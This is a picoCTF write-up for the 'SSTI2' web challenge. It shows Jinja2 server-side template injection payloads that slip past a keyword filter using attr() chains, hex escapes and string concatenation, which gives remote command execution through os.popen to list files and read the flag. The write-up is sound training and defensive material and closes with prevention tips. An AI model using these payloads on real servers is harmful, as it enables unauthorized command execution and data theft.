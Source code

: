 
# SSTI CTF Challenge Writeup – SSTI2

**Platform:** picoCTF  
**Challenge Name:** SSTI2  
**Category:** Web Exploitation  
**Points:** 200  
**Date:** 2025-06-27

---

## Challenge Description

I made a cool website where you can announce whatever you want!  
I read about input sanitization, so now I remove any kind of characters that could be a problem :)

---

## Initial Observations

- User input is rendered in the template
- Basic math payload works, confirming SSTI
- Some keywords like `__class__` trigger: "Stop trying to break me >:("

---

## Exploitation Steps

### 1. Confirming SSTI
Payload:
```jinja2
{{ 7 * 7 }}
```
Output:
```
49
```

### 2. Accessing Internal Variables
Payload:
```jinja2
{{ config }}
```

### 3. Bypassing WAF / Filters

Blocked:
```jinja2
{{ config.__class__ }}
```

Bypass using attr() and hex:
```jinja2
{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f') }}
```

Full command execution payload:
```jinja2
{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')
|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')
|attr('__import__')('os')|attr('popen')('ls')|attr('read')() }}
```

### 4. Discovering Flag File
Output:
```
__pycache__  app.py  flag  requirements.txt
```

### 5. Reading the Flag with String Obfuscation
```jinja2
{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')
|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')
|attr('__import__')('os')|attr('popen')('c' ~ 'at fl' ~ 'ag')
|attr('read')() }}
```

---

## What I Learned

- How to detect and exploit Server-Side Template Injection (SSTI)
- Understanding Jinja2 context like `request`, `config`, etc.
- Filter bypass techniques using `attr()`, hex encoding, and string concatenation
- Achieving remote command execution through `popen().read()`

---

## Prevention Tips

- Never render raw user input in server-side templates
- Use sandboxed template engines or static rendering
- Properly escape all input before rendering
- Prefer whitelisting over blacklisting

---

## Flag

picoCTF{example_fake_flag_here}

---

## References

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
- https://jinja.palletsprojects.com/
